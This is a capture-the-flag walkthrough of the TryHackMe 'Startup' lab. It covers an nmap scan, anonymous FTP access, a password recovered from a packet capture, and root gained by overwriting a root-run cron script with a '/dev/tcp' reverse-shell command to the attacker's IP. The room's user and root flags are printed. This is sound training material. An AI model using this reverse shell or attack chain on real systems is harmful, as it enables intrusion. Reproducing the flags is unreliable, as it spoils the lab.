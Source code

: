 `┌──(kali㉿kali)-[~/THM/Startup]`
`└─$ nmap -sV -sC -Pn -p- --min-rate=1000 -n 10.201.109.195 -oN 10.201.109.195_fullscan.txt`
`Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-23 17:27 UTC`
`Nmap scan report for 10.201.109.195`
`Host is up (0.14s latency).`
`Not shown: 65532 closed tcp ports (reset)`
`PORT   STATE SERVICE VERSION`
`21/tcp open  ftp     vsftpd 3.0.3`
`| ftp-syst:` 
`|   STAT:` 
`| FTP server status:`
`|      Connected to 10.8.72.228`
`|      Logged in as ftp`
`|      TYPE: ASCII`
`|      No session bandwidth limit`
`|      Session timeout in seconds is 300`
`|      Control connection is plain text`
`|      Data connections will be plain text`
`|      At session startup, client count was 2`
`|      vsFTPd 3.0.3 - secure, fast, stable`
`|_End of status`
`| ftp-anon: Anonymous FTP login allowed (FTP code 230)`
`| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]`
`| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg`
`|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt`
`22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)`
`|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)`
`|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)`
`80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))`
`|_http-server-header: Apache/2.4.18 (Ubuntu)`
`|_http-title: Maintenance`
`Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 87.48 seconds`


We can login to ftp via username ftp without any pass.

Username in file notice.txt:
Maya

I also notice that the directory ftp is writeable because of "`ftp [NSE: writeable]"`

This means if we find the /uploads/ directory on the http server we could upload a reverse shell and execute it.

We find a file named "receipe.txt" with the following

`www-data@startup:/$ cat recipe.txt`
`cat recipe.txt`
`Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.`

then i tried to access /www directory but we don't have perms?

then we find a user "lennie" in the /home directory, but we can't access it.
We also find a directory named "incidents" with a pcpng file in it.

I accessed the ftp server internally and uploaded the pcpng file so i could analyze it on my attacker machine.

We find a series of packets showing the user doing "sudo -l" and it asks for sudo password for www-data and the user inputs "c4ntg3t3n0ughsp1c3" which then proceeds to fail?

This password seems too specific to be a random password or mistype. They definitely meant this for another user and what did we just find moments ago? lennie.

Running "su lennie" in our revshell and inputting that password upgrades our shell to lennie.

We then find the user.txt flag
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

Inside of scripts we find the following:
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Oct 23 20:17 startup_list.txt

And what's interesting is that this file was just accessed/modified. This makes me believe there is some kind of crontab running on this.

planner.sh is executed > $LIST is set to that startup_list.txt > then we execute /etc/print.sh

We have write access to this file 
-rwx------ 1 lennie lennie 40 Oct 23 19:57 /etc/print.sh

so we can echo to write a reverse shell to bind us, and it's also executed by root.
echo "sh -i >& /dev/tcp/10.8.72.228/4242 0>&1" > /etc/print.sh

open a netcat on 4242 and boom!

`# cat root.txt`
`THM{f963aaa6a430f210222158ae15c3d76d}`
`# whoami`
`root`

Thanks for stopping by!















